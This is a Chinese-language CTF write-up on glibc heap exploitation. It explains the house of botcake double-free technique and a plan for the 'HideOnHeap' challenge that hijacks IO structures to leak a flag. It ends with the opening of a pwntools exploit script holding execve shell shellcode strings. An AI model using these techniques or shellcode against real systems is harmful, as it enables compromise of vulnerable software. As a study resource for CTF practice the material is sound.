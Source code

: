```python
```

## house of botcake(UAF)

从glibc 2.29开始tcache增加了key字段，一般来说我们需要覆盖掉key字段，才能进行double free操作。

house of botcake借用unsortbin来避免key字段实现doublefree堆复用(如果只是实现堆复用不去利用unsortbin上的libc地址，也可以借用fastbin)。

具体操作就是在填满 tcache 之后，再连续释放**两个相邻的堆块使其合并**(单个堆块会导致unsortbin双向链表损坏，从而导致无法申请unsortbin里的堆块，这里起到一个隔断作用)放到 unsorted bin 里，然后从tcache 中申请出一个堆块，再释放合并堆块下半部分堆块。那么这个下半部分chunk既出现在tcache里，又出现在unsorted bin里。 再通过错位切割直接申请unsortbin，就能控制tcache

![image-20220723104456758](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220723104456758.png)

![image-20220723110310852](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220723110310852.png)

### 技巧杂谈及适用条件

这种技巧通常用在没有泄露地址时，通过利用unsortbin上的地址实现爆破，特别是没有show功能时

由于要利用到堆自然合并以及tcache，可申请的size就不能在fastbin范围，要在tcache范围<0x420，同时2.27往上

错位切割是一种可以优先于tcache先申请unsortbin的方法，同时也能残留下unsortbin的地址

## HideOnHeap

![image-20220723091640757](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220723091640757.png)

题目的漏洞点主要在存在性判断上，edit功能判断了chunk和chunksize，而dele只判断了chunk，然后置零的是chunksize，导致这里有UAF，但是无法编辑，相当于是个double free漏洞。申请函数如下图，可申请0x20个chunk，最大size小于0x1500。

![image-20220723093255451](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220723093255451.png)

再一个就是这题没有show，甚至没有put和printf，只有write。导致没有办法直接劫持stdout泄露。

题目开始malloc了一个堆块存放flag，考虑直接劫持IO结构体泄露flag。

整个利用思路不泄露地址，用2个house of botcake，爆破申请到IO_stderr和global_fast_bin，用House of Corrosion任意地址写堆地址，劫持wrtiebase-write_end，然后用edit功能把flag位，以及泄露低位改为0，然后House of Corrosion改topchunksize，触发IO错误流，利用\__malloc_assert 中的 __fxprintf输出flag。

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level='debug'


def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
```